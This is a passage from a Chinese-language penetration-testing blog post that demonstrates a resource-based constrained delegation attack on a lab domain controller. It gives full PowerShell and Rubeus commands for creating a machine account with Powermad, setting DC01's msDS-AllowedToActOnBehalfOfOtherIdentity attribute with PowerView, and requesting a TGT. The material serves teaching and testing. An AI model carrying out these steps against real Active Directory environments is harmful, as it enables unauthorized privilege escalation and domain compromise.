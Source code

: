 ![](/assets/posts/2022-03-12-domain-delegation-attack/ixNPClrDA6EM7tB.png)

（2）Marcus 用户对 DC01 完全控制，因此可以通过 Marcus 用户的权限修改并设置机器账户 DC01 的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性。但此时还需要一个具有 SPN 的账户，以允许该账户对 DC01 上的服务进行委派。在域内，如果拥有一个普通的域用户，那么我们就可以利用这个用户创建新的机器帐户，并且默认最多允许创建 10 个机器账户，这是由域属性 `MachineAccountQuota` 决定的。

以 Marcus 用户用户权限执行 [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad)，创建一个名为 PENTEST$，密码为 Passw0rd 的机器账户，相关命令如下。新建的机器账户将默认注册 `RestrictedKrbHost/domain` 和 `HOST/domain` 这两个 SPN。

```powershell
# 导入模块
Import-Module .\Powermad.ps1
# 设置机器账户的密码
$Password = ConvertTo-SecureString 'Passw0rd' -AsPlainText -Force
# 通过 New-MachineAccount 函数创建机器账户
New-MachineAccount -MachineAccount "PENTEST" -Password $($Password) -Domain "pentest.com" -DomainController "DC01.pentest.com" -Verbose
```

![](/assets/posts/2022-03-12-domain-delegation-attack/RCsrS6cwDjqmEvz.png)

（3）接下来，我们通过 PowerView.ps1 配置 PENTEST 到 DC01 的基于资源的约束性委派，相关命令如下。

```powershell
# 导入模块
Import-Module .\PowerView.ps1
# 获取 PENTEST 账户的 SID
Get-NetComputer "PENTEST" -Properties objectsid
# 配置 PENTEST 到 DC01 的基于资源的约束性委派
$A = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1536491439-3234161155-253608391-1109)"
$SDBytes = New-Object byte[] ($A.BinaryLength)
$A.GetBinaryForm($SDBytes, 0)
Get-DomainComputer DC01 | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Verbose
# 查看是否配置成功
Get-DomainComputer DC01 -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
```

![](/assets/posts/2022-03-12-domain-delegation-attack/RnwZXNUph4t8O67.png)

若想清除 msDS-AllowedToActOnBehalfOfOtherIdentity 属性的值，可以执行以下命令：

```powershell
Set-DomainObject DC01 -Clear 'msDS-AllowedToActOnBehalfOfOtherIdentity' -Verbose
```

（4）接下来就是传统约束性委派攻击的流程了。通过 Rubeus 申请机器账户 WIN10-CLIENT1 的 TGT，相关命令如下。执行后，将得到 Base64 加密后的 TGT 票证，如下图所示。

```console
C:\Users\Marcus\Desktop> Rubeus.exe asktgt /user:PENTEST$ /password:Passw0rd /domain:pentest.com /dc:DC01.pentest.com /nowrap

# /user 指定要申请 TGT 的账户名
# /password 指定机器账户 PENTEST$ 的哈希值密码
# /domain 指定域名
# /dc 指定域控制器
```

